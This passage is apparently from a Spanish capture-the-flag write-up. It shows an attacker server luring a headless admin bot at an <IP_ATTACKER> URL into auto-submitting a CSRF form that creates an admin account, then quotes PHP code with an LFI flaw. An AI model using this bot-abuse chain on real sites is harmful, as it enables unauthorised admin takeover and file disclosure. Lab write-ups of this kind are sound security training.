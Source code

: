 Ahora vamos a establecer el servidor:

```shell
python3 server.py
```

Si enviamos el formulario como hicimos antes metiendo en la `URL` que vera el `admin` algo como `http://<IP_ATTACKER>/` y le damos a enviar, si esperamos un rato, veremos lo siguiente:

```
🚀 SSRF AUTO-ADMIN CREATION SERVER
==================================================
[+] Token CSRF: 058430bcfe9dbf937a852e52cab448aa
[+] Tu IP: <IP>
[+] Servidor escuchando en puerto 80

[INSTRUCCIONES]
1. Usa esta URL en reference_link: http://<IP>/
2. El bot admin visitará y creará automáticamente un usuario admin
3. Las credenciales se guardarán en 'created_admins.txt'
4. Luego podrás loguearte con esas credenciales

[*] Esperando conexiones del bot admin...


[+] Headless Chrome accedió desde: 10.10.11.84
[+] Path: /
[SSRF] "GET / HTTP/1.1" 200 -
[+] Servido formulario auto-submit para usuario: adminhntaxt
[+] Credenciales: adminhntaxt / Passhntaxt!
[+] Token CSRF usado: 058430bcfe9dbf937a852e52cab448aa
```

Veremos que ha funcionado la creacion de usuario aparentemente, vamos a probarlas, vamos a cerrar sesion y loguearnos en el panel con dichas credenciales creada, en mi caso:

```
User: adminhntaxt
Pass: Passhntaxt!
```

Si las probamos veremos que ha funcionado:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 112757.png" alt=""><figcaption></figcaption></figure>

Veremos que somos rol `admin` por lo que funciono todo de forma correcta, si vemos el archivo `reports.php` desde `gitea` vamos a ver un `LFI` super claro en esta parte del codigo:

```php
<?php
require '../includes/auth.php';
require '../config/db.php';

if (!isAuthenticated() || $_SESSION['user_role'] !== 'admin') {
    header('Location: /login.php');
    exit();
}

$report = $_GET['report'] ?? 'reports/academic.php';

if (strpos($report, '..') !== false) {
    die("<h2>Malicious request blocked 🚫 </h2>");
}   

if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("<h2>Access denied. Invalid file 🚫</h2>");
}

```